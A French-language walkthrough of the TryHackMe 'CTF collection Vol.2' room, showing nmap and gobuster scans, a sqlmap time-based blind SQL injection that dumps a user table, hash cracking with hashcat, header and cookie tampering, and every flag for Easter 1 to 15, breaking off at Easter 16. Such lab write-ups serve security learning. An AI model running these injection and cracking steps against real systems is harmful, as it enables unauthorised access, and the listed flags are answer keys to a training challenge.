




# CTF collection Vol.2 #

## Task 1 Author note ##

## Task 2 Easter egg ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.150.11 CTF-collection-vol2.thm' >>  /etc/hosts"
[sudo] Mot de passe de tim : 
tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A CTF-collection-vol2.thm  -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-23 17:54 CEST
Nmap scan report for CTF-collection-vol2.thm (10.10.150.11)
Host is up (0.034s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 1b:c2:b6:2d:fb:32:cc:11:68:61:ab:31:5b:45:5c:f4 (DSA)
|   2048 8d:88:65:9d:31:ff:b4:62:f9:28:f2:7d:42:07:89:58 (RSA)
|_  256 40:2e:b0:ed:2a:5a:9d:83:6a:6e:59:31:db:09:4c:cb (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/VlNCcElFSWdTQ0JKSUVZZ1dTQm5JR1VnYVNCQ0lGUWdTU0JFSUVrZ1p5QldJR2tnUWlCNklFa2dSaUJuSUdjZ1RTQjVJRUlnVHlCSklFY2dkeUJuSUZjZ1V5QkJJSG9nU1NCRklHOGdaeUJpSUVNZ1FpQnJJRWtnUlNCWklHY2dUeUJUSUVJZ2NDQkpJRVlnYXlCbklGY2dReUJDSUU4Z1NTQkhJSGNnUFElM0QlM0Q=
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: 360 No Scope!
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=8/23%OT=22%CT=1%CU=41607%PV=Y%DS=2%DC=T%G=Y%TM=6123C4F
OS:2%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=108%TI=Z%CI=I%II=I%TS=8)OPS
OS:(O1=M506ST11NW6%O2=M506ST11NW6%O3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST1
OS:1NW6%O6=M506ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN
OS:(R=Y%DF=Y%T=40%W=6903%O=M506NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8080/tcp)
HOP RTT      ADDRESS
1   34.04 ms 10.9.0.1
2   34.22 ms CTF-collection-vol2.thm (10.10.150.11)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 49.51 seconds
```

Dans le résultat de nmap on voit qu'il y a deux servie : 
Le service  SSH sur le port 22.  
Le service HTTP sur le port 80.   

**Easter 1**

Nmap nous indique qu'il existe un fichier robots.txt.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://ctf-collection-vol2.thm/robots.txt
User-agent: * (I don't think this is entirely true, DesKel just wanna to play himself)
Disallow: /VlNCcElFSWdTQ0JKSUVZZ1dTQm5JR1VnYVNCQ0lGUWdTU0JFSUVrZ1p5QldJR2tnUWlCNklFa2dSaUJuSUdjZ1RTQjVJRUlnVHlCSklFY2dkeUJuSUZjZ1V5QkJJSG9nU1NCRklHOGdaeUJpSUVNZ1FpQnJJRWtnUlNCWklHY2dUeUJUSUVJZ2NDQkpJRVlnYXlCbklGY2dReUJDSUU4Z1NTQkhJSGNnUFElM0QlM0Q=


45 61 73 74 65 72 20 31 3a 20 54 48 4d 7b 34 75 37 30 62 30 37 5f 72 30 6c 6c 5f 30 75 37 7d
```

Dans le fichier robots on voit deux chaînes encodés.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ echo "45 61 73 74 65 72 20 31 3a 20 54 48 4d 7b 34 75 37 30 62 30 37 5f 72 30 6c 6c 5f 30 75 37 7d "| hex2raw 
Easter 1: THM{4u70b07_r0ll_0u7}   
```

On décode la chaîne en hexadécimal et on obtient notre premier flag.    

La réponse est : THM{4u70b07_r0ll_0u7}    

**Easter 2**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ echo "VlNCcElFSWdTQ0JKSUVZZ1dTQm5JR1VnYVNCQ0lGUWdTU0JFSUVrZ1p5QldJR2tnUWlCNklFa2dSaUJuSUdjZ1RTQjVJRUlnVHlCSklFY2dkeUJuSUZjZ1V5QkJJSG9nU1NCRklHOGdaeUJpSUVNZ1FpQnJJRWtnUlNCWklHY2dUeUJUSUVJZ2NDQkpJRVlnYXlCbklGY2dReUJDSUU4Z1NTQkhJSGNnUFElM0QlM0Q=" | base64 -d 
VSBpIEIgSCBJIEYgWSBnIGUgaSBCIFQgSSBEIEkgZyBWIGkgQiB6IEkgRiBnIGcgTSB5IEIgTyBJIEcgdyBnIFcgUyBBIHogSSBFIG8gZyBiIEMgQiBrIEkgRSBZIGcgTyBTIEIgcCBJIEYgayBnIFcgQyBCIE8gSSBHIHcgPQ%3D%3D

RGVzS2VsX3NlY3JldF9iYXNltim@kali:~/Bureau/tryhackme/write-up$ urlencode -d "VSBpIEIgSCBJIEYgWSBnIGUgaSBCIFQgSSBEIEkgZyBWIGkgQiB6IEkgRiBnIGcgTSB5IEIgTyBJIEcgdyBnIFcgUyBBIHogSSBFIG8gZyBiIEMgQiBrIEkgRSBZIGcgTyBTIEIgcCBJIEYgayBnIFcgQyBCIE8gSSBHIHcgPQ%3D%3D" | base64 -d | sed 's/ //g' | base64 -d | sed 's/ //g' | base64 -d
DesKel_secret_base
```

On décode la chaîne qui est encodée en :
base64-\>urlendoe-\>base64-\>supprime les espaces-\>base64 -d-\>on supprime les espaces   

On a un résultat qui est : DesKel_secret_base   
C'est un répertoire caché.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://ctf-collection-vol2.thm/DesKel_secret_base/ -s | grep "THM"
	<p style="text-align:center;color:white;">Easter 2: THM{f4ll3n_b453}</p>
```

Dans le code source la page on trouve notre flag.   

La réponse est : Easter 2: THM{f4ll3n_b453}   

**Easter 3**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://ctf-collection-vol2.thm/ -w /usr/share/dirb/wordlists/common.txt -q 
/.hta                 (Status: 403) [Size: 295]
/.htaccess            (Status: 403) [Size: 300]
/.htpasswd            (Status: 403) [Size: 300]
/button               (Status: 200) [Size: 39148]
/cat                  (Status: 200) [Size: 62048]
/cgi-bin/             (Status: 403) [Size: 299]  
/index.php            (Status: 200) [Size: 94328]
/index                (Status: 200) [Size: 94328]
/iphone               (Status: 200) [Size: 19867]
/login                (Status: 301) [Size: 334] [--> http://ctf-collection-vol2.thm/login/]
/robots               (Status: 200) [Size: 430]                                            
/robots.txt           (Status: 200) [Size: 430]                                            
/server-status        (Status: 403) [Size: 304]                                            
/small                (Status: 200) [Size: 689]                                            
/static               (Status: 200) [Size: 253890]                                         
/who                  (Status: 200) [Size: 3847428]       
```

On trouve un répertoire login regardons le.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://ctf-collection-vol2.thm/login/ -s | grep "THM"
		<p hidden>Seriously! You think the php script inside the source code? Pfff.. take this easter 3: THM{y0u_c4n'7_533_m3}</p> 
```

On trouve notre flag.

La réponse est : THM{y0u_c4n'7_533_m3}   

**Easter 4**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://ctf-collection-vol2.thm/login/index.php
<!DOCTYPE html PUBLIC"-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd"
<html>

	<head>
		<meta content="text/html;charset=utf-8" http-equiv="Content-Type">
		<meta content="utf-8" http-equiv="encoding">
		<p hidden>Seriously! You think the php script inside the source code? Pfff.. take this easter 3: THM{y0u_c4n'7_533_m3}</p> 
		<title>Can you find the egg?</title>
		<h1>Just an ordinary login form!</h1>
	</head>
	
	<body>
		
		<p>You don't need to register yourself</p><br><br>
		<form method='POST'>
			Username:<br>
			<input type="text" name="username" required>
			<br><br>
			Password:<br>
			<input type="text" name="password" required>
			<br><br>
			<button name="submit" value="submit">Login</button>
		</form>
			</body>
</html>

```

Dans le code source on remarque qu'il y a deux entrés de saisie qui ont comme noms username et  password.    
De plus il y une validation qui port comme nom submit et de valeur submit.   
On peut avec la méthode POST envoyer une injections.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sqlmap -u http://ctf-collection-vol2.thm/login/index.php --data="username=1&password=2&submit=submit" --dbs --dump
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.5.8#stable}
|_ -| . [(]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 20:27:19 /2021-08-23/

[20:27:19] [INFO] testing connection to the target URL
[20:27:19] [INFO] checking if the target is protected by some kind of WAF/IPS
[20:27:19] [INFO] testing if the target URL content is stable
[20:27:20] [INFO] target URL content is stable
[20:27:20] [INFO] testing if POST parameter 'username' is dynamic
[20:27:20] [WARNING] POST parameter 'username' does not appear to be dynamic
[20:27:20] [WARNING] heuristic (basic) test shows that POST parameter 'username' might not be injectable
[20:27:20] [INFO] testing for SQL injection on POST parameter 'username'
[20:27:20] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[20:27:20] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[20:27:20] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[20:27:21] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[20:27:21] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[20:27:21] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[20:27:21] [INFO] testing 'Generic inline queries'
[20:27:21] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[20:27:22] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[20:27:22] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[20:27:22] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[20:27:33] [INFO] POST parameter 'username' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] 
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] 
[20:27:43] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[20:27:43] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[20:27:44] [INFO] target URL appears to be UNION injectable with 2 columns
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] 
[20:27:46] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql') 
[20:27:46] [INFO] checking if the injection point on POST parameter 'username' is a false positive
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 91 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=1' AND (SELECT 4480 FROM (SELECT(SLEEP(5)))bvYk) AND 'hgEf'='hgEf&password=2&submit=submit
---
[20:28:07] [INFO] the back-end DBMS is MySQL
[20:28:07] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
web server operating system: Linux Ubuntu 12.04 or 13.04 or 12.10 (Raring Ringtail or Quantal Quetzal or Precise Pangolin)
web application technology: PHP 5.3.10, Apache 2.2.22
back-end DBMS: MySQL >= 5.0.12
[20:28:07] [INFO] fetching database names
[20:28:07] [INFO] fetching number of databases
[20:28:07] [INFO] retrieved: 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] 
4
[20:28:18] [INFO] retrieved: 
[20:28:28] [INFO] adjusting time delay to 1 second due to good response times
information_schema
[20:29:29] [INFO] retrieved: THM_f0und_m3
[20:30:28] [INFO] retrieved: mysql
[20:30:47] [INFO] retrieved: performance_schema
available databases [4]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] THM_f0und_m3

[20:31:48] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[20:31:48] [INFO] fetching current database
[20:31:48] [INFO] retrieved: THM_f0und_m3
[20:32:47] [INFO] fetching tables for database: 'THM_f0und_m3'
[20:32:47] [INFO] fetching number of tables for database 'THM_f0und_m3'
[20:32:47] [INFO] retrieved: 2
[20:32:50] [INFO] retrieved: nothing_inside
[20:33:44] [INFO] retrieved: user
[20:33:58] [INFO] fetching columns for table 'user' in database 'THM_f0und_m3'
[20:33:58] [INFO] retrieved: 2
[20:34:00] [INFO] retrieved: username
[20:34:25] [INFO] retrieved: password
[20:34:55] [INFO] fetching entries for table 'user' in database 'THM_f0und_m3'
[20:34:55] [INFO] fetching number of entries for table 'user' in database 'THM_f0und_m3'
[20:34:55] [INFO] retrieved: 2
[20:34:58] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)                                                                                                      
05f3672ba34409136aa71b8d00070d1b
[20:36:48] [INFO] retrieved: DesKel
[20:37:11] [INFO] retrieved: He is a nice guy, say hello for me
[20:39:24] [INFO] retrieved: Skidy
[20:39:41] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] 
do you want to crack them via a dictionary-based attack? [Y/n/q] 
[20:39:57] [INFO] using hash method 'md5_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 
[20:40:00] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] 
[20:40:04] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[20:40:04] [INFO] starting 4 processes 
[20:40:06] [INFO] cracked password 'cutie' for user 'DesKel'                                                                                                                                                                                 
Database: THM_f0und_m3                                                                                                                                                                                                                       
Table: user
[2 entries]
+------------------------------------------+----------+
| password                                 | username |
+------------------------------------------+----------+
| 05f3672ba34409136aa71b8d00070d1b (cutie) | DesKel   |
| He is a nice guy, say hello for me       | Skidy    |
+------------------------------------------+----------+

[20:40:08] [INFO] table 'THM_f0und_m3.`user`' dumped to CSV file '/home/tim/.local/share/sqlmap/output/ctf-collection-vol2.thm/dump/THM_f0und_m3/user.csv'
[20:40:08] [INFO] fetching columns for table 'nothing_inside' in database 'THM_f0und_m3'
[20:40:08] [INFO] retrieved: 
[20:40:08] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
1
[20:40:10] [INFO] retrieved: Easter_4
[20:40:39] [INFO] fetching entries for table 'nothing_inside' in database 'THM_f0und_m3'
[20:40:39] [INFO] fetching number of entries for table 'nothing_inside' in database 'THM_f0und_m3'
[20:40:39] [INFO] retrieved: 1
[20:40:40] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)                                                                                                      
THM{1nj3c7_l1k3_4_b055}
Database: THM_f0und_m3
Table: nothing_inside
[1 entry]
+-------------------------+
| Easter_4                |
+-------------------------+
| THM{1nj3c7_l1k3_4_b055} |
+-------------------------+

[20:42:18] [INFO] table 'THM_f0und_m3.nothing_inside' dumped to CSV file '/home/tim/.local/share/sqlmap/output/ctf-collection-vol2.thm/dump/THM_f0und_m3/nothing_inside.csv'
[20:42:18] [INFO] fetched data logged to text files under '/home/tim/.local/share/sqlmap/output/ctf-collection-vol2.thm'

[*] ending @ 20:42:18 /2021-08-23/


```

On récupère la base de donnée est on a un flag qui est : THM{1nj3c7_l1k3_4_b055}   

**Easter 5**

Dans la basse de donnée pour DesKel on a un hash qui est un mot de passe.     

```bash
tim@kali:~/Bureau/tryhackme/write-up$ hashcat -a 0 -m 0 hash /usr/share/wordlists/rockyou.txt --quiet
05f3672ba34409136aa71b8d00070d1b:cutie
```

On casse le hash même si le mot on avait dans le résultat dans l'extraction de la basse de données.   

Le mot de passe est : cutie   



On se connect avec les identifiants trouvés.  

Et le flag s'affiche.   



Le flage est : Easter 5: THM{wh47_d1d_17_c057_70_cr4ck_7h3_5ql}     

**Easter 6**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl -I -s  http://ctf-collection-vol2.thm 
HTTP/1.1 200 OK
Date: Mon, 23 Aug 2021 19:29:45 GMT
Server: Apache/2.2.22 (Ubuntu)
X-Powered-By: PHP/5.3.10-1ubuntu3.26
Busted: Hey, you found me, take this Easter 6: THM{l37'5_p4r7y_h4rd}
Set-Cookie: Invited=0
Vary: Accept-Encoding
Content-Type: text/html
```

En regardant l'entête de la page principale on trouve le flag.   

La réponse est : THM{l37'5_p4r7y_h4rd}    

**Easter 7**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl -c -  -s  http://ctf-collection-vol2.thm | tail -1
ctf-collection-vol2.thm	FALSE	/	FALSE	0	Invited	0
```

On voit que l'on a un cookie de nom Invited avec la valeur 0.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ for i in `seq 1 10`;do curl http://ctf-collection-vol2.thm --cookie "Invited=$i" -s;done | grep THM
			<h2> You are now officially invited. Enjoy the easter 7: THM{w3lc0m3!_4nd_w3lc0m3} </h2>
```

On fait varier la valeur du cookie Invited et on trouve le flag.     

La réponse est : THM{w3lc0m3!_4nd_w3lc0m3}    

**Easter 8**

Dans l'astuce on nous dit de changer l'user d'agent d'un iphone.  
  
```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl --user-agent "Mozilla/5.0 (iPhone; CPU iPhone OS 13_1_2 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/13.0.1 Mobile/15E148 Safari/604.1" http://ctf-collection-vol2.thm/ -s | grep THM
			<h4>You are Rich! Subscribe to THM server ^^ now. Oh btw, Easter 8: THM{h3y_r1ch3r_wh3r3_15_my_k1dn3y} 
```

On change l'user agent avec celui dans l'astuce et on trouve le flag.    

La réponse est : THM{h3y_r1ch3r_wh3r3_15_my_k1dn3y}    

**Easter 9**

Dans le répertoire ready si on sur la page la redirection est trop rapide.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://ctf-collection-vol2.thm/ready/ -s | grep THM
		<!-- Too fast, too good, you can't catch me. I'm sanic Easter 9: THM{60nn4_60_f457} -->
```

Avec curl on est rapide pour récupérer le flag.    

La réponse est : THM{60nn4_60_f457}     

**Easter 10**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://ctf-collection-vol2.thm/free_sub/
only people came from tryhackme are allowed to claim the voucher.
```

Nous avons une phrase qui dit que seulement les personnes venant de tryhackme peuvent réclamer le bon.     

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl  -s --referer "tryhackme.com" http://ctf-collection-vol2.thm/free_sub/ | grep THM
Nah, there are no voucher here, I'm too poor to buy a new one XD. But i got an egg for you. Easter 10: THM{50rry_dud3}
```

Nous disons avec curl que nous venons du site tryhackme et on a notre flag.     

La réponse est : THM{50rry_dud3}    

**Easter 11**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl  http://ctf-collection-vol2.thm/ -s  | grep menu -B 1 -A 10
	
	<h2>Let see the menu, huh..............</h2>
	<form method="POST">
	<select name="dinner">
		 <option value="salad">salad</option>
  		 <option value="chicken sandwich">chicken sandwich</option>
  		 <option value="tyre">tyre</option>
  		 <option value="DesKel">DesKel</option>
      	</select>
	 <br><br><br>
                 <button name="submit" value="submit">Take it!</button>
	</form>
```

On peut voir que l'on a plusieurs options.     

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl  http://ctf-collection-vol2.thm/ -d "dinner=salad" -X POST  -s  | grep menu -B 1 -A 12
	
	<h2>Let see the menu, huh..............</h2>
	<form method="POST">
	<select name="dinner">
		 <option value="salad">salad</option>
  		 <option value="chicken sandwich">chicken sandwich</option>
  		 <option value="tyre">tyre</option>
  		 <option value="DesKel">DesKel</option>
      	</select>
	 <br><br><br>
                 <button name="submit" value="submit">Take it!</button>
	</form>

	Mmmmmm... what a healthy choice, I prefer an egg	<h1 style="color:red"">Press this button if you wishes to watch the world burn!!!!!!!!!!!!!!!!<h1>
```

On lui envoie la valeur salad, mais il veut un œuf.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl  http://ctf-collection-vol2.thm/ -d "dinner=egg" -X POST  -s  | grep THM
	You found the secret menu, take the easter 11: THM{366y_b4k3y}	<h1 style="color:red"">Press this button if you wishes to watch the world burn!!!!!!!!!!!!!!!!<h1>
```

Pas de problème on lui envoi et on a le flag.    

La réponse est : THM{366y_b4k3y}    

**Easter 12**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl  http://ctf-collection-vol2.thm/  -s | grep '\.js'
		<script src="jquery-9.1.2.js"></script>
```

On trouve un fichier en Javascript.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl  http://ctf-collection-vol2.thm/jquery-9.1.2.js  -s 
function ahem()
 {
	str1 = '4561737465722031322069732054484d7b68316464336e5f6a355f66316c337d'
	var hex  = str1.toString();
	var str = '';
	for (var n = 0; n < hex.length; n += 2) {
		str += String.fromCharCode(parseInt(hex.substr(n, 2), 16));
	}
	return str;
 }
```

On voit que c'est une fonction qui déchiffre une chaîne hexadécimale.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ echo "45 61 73 74 65 72 20 31 32 20 69 73 20 54 48 4d 7b 68 31 64 64 33 6e 5f 6a 35 5f 66 31 6c 33 7d" | hex2raw 
Easter 12 is THM{h1dd3n_j5_f1l3}
```

On la déchiffre et on a notre flag.    

Sinon on peut la même chose avec node.    

```basg
tim@kali:~/Bureau/tryhackme/write-up$ node
> function ahem()
...  {
... 	str1 = '4561737465722031322069732054484d7b68316464336e5f6a355f66316c337d'
... 	var hex  = str1.toString();
... 	var str = '';
... 	for (var n = 0; n < hex.length; n += 2) {
..... 		str += String.fromCharCode(parseInt(hex.substr(n, 2), 16));
..... 	}
... 	return str;
...  }
undefined
> ahem()
'Easter 12 is THM{h1dd3n_j5_f1l3}'
```

La réponse est : Easter 12 is THM{h1dd3n_j5_f1l3}   

**Easter 13**


En cliquant sur le bouton rouge et en attendant un peu on à le flag.  



On a notre flag.   

La réponse est : THM{1_c4n'7_b3l13v3_17}   

**Easter 14**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://ctf-collection-vol2.thm/ -s | grep 'Easter 14' > base64.txt
tim@kali:~/Bureau/tryhackme/write-up$ cat base64.txt | cut -c 47- | base64 -d > image.png 
```

On cherche la chaîne pour la solution 14.   
On néttoie la chaîne et on décode la chaîne base64.  
On met le contenu dans une image png.   



En lisant l'image on a le flag.   

La réponse est : THM{d1r3c7_3mb3d}   

**Easter 15**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://ctf-collection-vol2.thm/game1/
<html>
	<head>
		<title>Game 1</title>
		<h1>Guess the combination</h1>
	</head>
	
	<body>
	<form method="POST">
		Your answer:<br>
		<input type="text" name="answer" required>
	</form>
		<p>Your hash: </p>
	<p>hints: 51 89 77 93 126 14 93 10 </p>
	</body>

</html>
```

On est dans un jeu ou on doit deviner la combinaison.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ code=51,89,77,93,126,14,93,10
tim@kali:~/Bureau/tryhackme/write-up$ for trouve in ${code//,/ }; do for letter in {{a..z},{A..Z}};do curl http://ctf-collection-vol2.thm/game1/ -s -d answer=$letter -X POST | grep hash | if grep $trouve\<;then echo $letter;fi; done;done
		<p>Your hash:  51</p>
G
		<p>Your hash:  89</p>
a
		<p>Your hash:  77</p>
m
		<p>Your hash:  93</p>
e
		<p>Your hash:  126</p>
O
		<p>Your hash:  14</p>
v
		<p>Your hash:  93</p>
e
		<p>Your hash:  10</p>
r

```

On test tous les caractère jusqu'a on trouve les bons résultats.   
La chaîne décodée est : GameOver    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://ctf-collection-vol2.thm/game1/ -s -d answer=GameOver -X POST | grep Easter
	Good job on completing the puzzle, Easter 15: THM{ju57_4_64m3}	<p>Your hash:  51 89 77 93 126 14 93 10</p>
```

On trouve le flag qui est : Easter 15: THM{ju57_4_64m3}    

**Easter 16**
```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://ctf-collection-vol2.thm/game2/
<html>
        <head>
                <title>Game 2</title>
